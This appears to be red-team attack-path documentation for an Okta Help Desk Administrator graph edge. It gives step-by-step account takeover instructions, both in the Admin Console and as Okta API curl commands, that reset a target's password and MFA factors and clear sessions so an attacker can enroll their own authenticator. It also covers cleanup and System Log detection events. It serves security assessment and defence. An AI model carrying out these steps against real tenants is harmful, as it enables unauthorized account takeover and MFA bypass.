

## General Information

The traversable Okta_HelpDeskAdmin edges represent Help Desk Administrator role assignments. Help Desk Administrators can perform password resets, unlock accounts, and reset MFA factors for users within their assigned scope.


```mermaid
graph LR
    u1("Okta_User john\@contoso.com")
    g1("Okta_Group Help Desk")
    u2("Okta_User alice\@contoso.com")
    u3("Okta_User bob\@contoso.com")
    u1 -- Okta_HelpDeskAdmin --> u2
    g1 -- Okta_HelpDeskAdmin --> u3
```

## Abuse Info

An attacker who controls the source principal can perform help desk actions against the destination user. This is commonly abused by resetting the user's password and authenticators, unlocking the account if needed, clearing sessions, and completing the next login as that user. If the graph edge points at a scoped group, apply the same help desk actions to users in that group.

For a user source, sign in as that user. For a group source, compromise any member of the source group. For an application source, authenticate as the service app or client and use its management API access.

Using the Admin Console:

1. Authenticate to Okta as the source user, as a member of the source group, or as the source service application.
2. Open **Directory** > **People** and select the destination user.
3. Unlock or activate the account if its current status would block sign-in.
4. Reset the user's password or generate a password reset flow.
5. Reset the user's authenticators so the attacker can enroll a new authenticator during the next login.
6. Sign in as the destination user, complete the password reset flow, enroll attacker-controlled MFA, and access applications or admin functions available to that user.

If password reset is not available but authenticator reset is available, combine this edge with a known password, password spraying result, password sync path, or session theft.

Using the Okta API:

1. Set the Okta org URL, a token for the source principal, and the destination user ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_USER_ID="00u..."
    ```

2. Unlock the account if it is locked.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/unlock"
    ```

3. Reset all authenticators for the user.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_factors"
    ```

4. Reset the password and return the recovery artifact to the caller.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_password?sendEmail=false&revokeSessions=true"
    ```

5. Clear current sessions if they are still valid.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/sessions?oauthTokens=true&forgetDevices=true"
    ```

6. Complete the password reset flow as the destination user and verify sign-in with an attacker-controlled authenticator.

## Cleanup after Abuse

Cleanup restores the destination user's account after help desk takeover by removing attacker-controlled authenticators, forcing legitimate password recovery, restoring lifecycle state, and clearing temporary sessions.

Cleanup using Admin Console:

1. Open **Directory** > **People** and select the destination user.
2. Remove attacker-controlled authenticators and restore expected recovery methods.
3. Send a legitimate password reset to the user.
4. Restore lifecycle state only if the abuse changed it, such as unlock, activate, suspend, or unsuspend.
5. Clear active sessions created during the operation.

Cleanup using API:

1. List enrolled factors and delete attacker-controlled enrollments.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/factors"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/factors/$FACTOR_ID"
    ```

2. Start a legitimate password reset and revoke sessions.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_password?sendEmail=true&revokeSessions=true"
    ```

3. Restore lifecycle state with the appropriate lifecycle endpoint if the abuse changed it, such as `activate`, `reactivate`, `suspend`, or `unsuspend`.
4. Revoke remaining sessions and OAuth tokens.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/sessions?oauthTokens=true&forgetDevices=true"
    ```

5. Verify the user can sign in through the legitimate recovery path and that no attacker-controlled factors remain.

## Opsec Considerations

Help desk actions generate System Log events for user lifecycle, password, authenticator, unlock, and session operations. Relevant event types include `user.account.reset_password`, `user.account.expire_password`, `user.mfa.factor.reset_all`, `user.mfa.factor.activate`, `user.session.clear`, `user.session.start`, and `user.lifecycle.activate`.

Resetting both password and MFA in a short window is a high-signal takeover pattern, especially when followed by `user.session.access_admin_app`, new app launches, or source IP and user agent changes.

## References

- [Okta Help desk administrators](https://help.okta.com/oie/en-us/content/topics/security/administrators-help-desk-admin.htm)
- [Okta User Credentials API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserCred/)
- [Okta User Lifecycle API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserLifecycle/)
- [Okta User Factors API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserFactor/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Adam Chester: Okta for Red Teamers](https://blog.xpnsec.com/okta-for-redteamers/)
